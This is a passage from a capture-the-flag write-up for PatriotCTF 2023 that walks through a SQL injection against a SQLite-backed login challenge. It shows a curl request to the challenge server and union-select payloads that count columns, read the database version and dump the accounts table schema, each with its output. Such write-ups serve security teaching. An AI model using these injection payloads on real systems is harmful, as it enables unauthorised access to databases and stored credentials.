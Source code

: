 ![](attachment/ab255925199266e90439ba854728a82f.png)

> PCTF{Hang_
#### 3rd Flag - SQLI (sqlite)

A username was revealed in cookie called : `kiran`

```bash
┌──(bravosec㉿fsociety)-[/media/sf_kali-share/patriotctf2023] 
└─$ curl -d 'username=kiran' chal.pctf.competitivecyber.club:9090
["112311","one@gmail.com","kiran","nothing here"]
```

SQLI, get how much columns

```bash
username=kiran" union select 1,2,3,4; --
```

```bash
["112311","one@gmail.com","kiran","nothing here"]
```

Get db info, `version()` did not work, assumed it's sqlite

```bash
username=kiran" union select 1,2,3,sqlite_version(); --
```

```bash
["1","2","3","3.40.1"]
```

Get db schema

```bash
username=kiran" union select 1,2,3,(SELECT sql FROM sqlite_schema); --
```

```bash
["1","2","3","CREATE TABLE accounts(id int NOT NULL PRIMARY KEY , email varchar(20) unique, username varchar(20), password varchar(200))"]
```
